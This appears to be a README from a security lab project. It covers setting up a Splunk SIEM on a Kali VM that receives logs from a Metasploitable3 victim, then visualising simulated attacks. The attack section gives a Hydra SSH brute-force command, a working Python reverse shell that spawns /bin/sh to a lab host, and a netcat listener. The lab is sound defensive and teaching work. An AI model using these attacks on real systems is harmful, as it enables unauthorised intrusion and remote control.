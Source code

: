 # 🛡️ Phase 2: SIEM - Dashboard Analysis

## 🎯 Objective.

- Integrate logs from the **victim machine** (Metasploitable3) into a **SIEM server** (Splunk running on the attacker/Kali VM).
- Visualize attack logs to identify patterns such as brute-force attempts and reverse shells.
- Compare the behavior and timeline of events before and after compromise.

---

## 🔧 Splunk Server Setup (Kali VM)

### Installation
```bash
wget -O splunk-9.3.2.deb https://download.splunk.com/products/splunk/releases/9.3.2/linux/splunk-9.3.2-d8bb32809498-linux-2.6-amd64.deb
sudo dpkg -i splunk-9.3.2.deb
sudo /opt/splunk/bin/splunk start --accept-license
sudo /opt/splunk/bin/splunk enable boot-start
```

### Access Web Interface
Open in browser:
```
http://192.168.142.129:8000
```
Log in with:
- **Username:** admin
- **Password:** admin123

### Enable TCP 9997 Port (to receive logs)
- Navigate to **Settings > Forwarding and Receiving > Add New (Receive Data)**
- Add TCP port **9997**
- Click **Save**

---

## 🔗 Splunk Forwarder Setup (Metasploitable3 VM)

### Installation
```bash
wget -O splunkforwarder.tgz https://download.splunk.com/products/universalforwarder/releases/9.4.1/linux/splunkforwarder-9.4.1-e3bdab203ac8-linux-amd64.tgz
tar -xvzf splunkforwarder.tgz
sudo mv splunkforwarder /opt/splunkforwarder
sudo /opt/splunkforwarder/bin/splunk start --accept-license
```

### Connect to Splunk Server
```bash
sudo /opt/splunkforwarder/bin/splunk enable boot-start
sudo /opt/splunkforwarder/bin/splunk login -auth admin:admin123
sudo /opt/splunkforwarder/bin/splunk add forward-server 192.168.142.129:9997
```

### Add SSH Log Monitoring
```bash
sudo /opt/splunkforwarder/bin/splunk add monitor /var/log/auth.log
sudo /opt/splunkforwarder/bin/splunk restart
```

---

## ⚔️ Attacks Performed

### 1. SSH Brute-force with Hydra
```bash
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.142.131 -t 4
```

### 2. Reverse Shell via Python Script
```python
import socket,subprocess,os
s=socket.socket()
s.connect(("192.168.142.129",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/sh","-i"])
```

### 3. Netcat Listener on Kali
```bash
nc -lvnp 4444
```

---

## 📊 Visualization in Splunk

### Open Splunk Search:
```
http://192.168.142.129:8000/en-US/app/search/search
```

### Sample Queries:
- Failed SSH logins:
  ```spl
  index=main "Failed password"
  ```
- Successful logins:
  ```spl
  index=main "Accepted password"
  ```
- Reverse shell detection:
  ```spl
  index=main "session opened" OR "session closed"
  ```

### Bar Chart Visualization:
- Use **Visualizations > Bar Chart**
- X-Axis: `_time`, Y-Axis: `count`, Split: `event_type`

---

## 📸 Required Screenshots

- Splunk web UI showing active log forwarding from Metasploitable3
- Search results for:
  - SSH brute-force (Hydra)
  - Reverse shell events
- Visualization bar charts for the above queries
- Terminal on Kali VM showing:
  - Hydra execution
  - Netcat receiving shell
  - Python reverse shell trigger

---

## 🧠 Conclusion

- SIEM integration was completed with Metasploitable3 as victim and Splunk on Kali as server.
- Attacks were successfully simulated and visualized.
- Dashboards clearly showed timeline escalation (Hydra ➔ login ➔ shell access).
- These logs will be compared in **Phase 3** against defense mechanisms.

> Proceed to Phase 3 for defensive implementation and validation.
> 







![Screenshot17](../screenshots/Screenshot17.png)
![Screenshot18](../screenshots/Screenshot18.png)
![Screenshot19](./screenshots/Screenshot19.png)
![Screenshot20](./screenshots/Screenshot20.png)
![Screenshot21](./screenshots/Screenshot21.png)
![Screenshot22](./screenshots/Screenshot22.png)
![Screenshot23](./screenshots/Screenshot23.png)
![Screenshot24](./screenshots/Screenshot24.png)
![Screenshot25](./screenshots/Screenshot25.png)
![Screenshot26](./screenshots/Screenshot26.png)
![Screenshot27](./screenshots/Screenshot27.png)
![Screenshot28](./screenshots/Screenshot28.png)
![Screenshot29](./screenshots/Screenshot29.png)
![Screenshot30](./screenshots/Screenshot30.png)
![Screenshot31](./screenshots/Screenshot31.png)
![Screenshot32](./screenshots/Screenshot32.png)
![Screenshot33](./screenshots/Screenshot33.png)


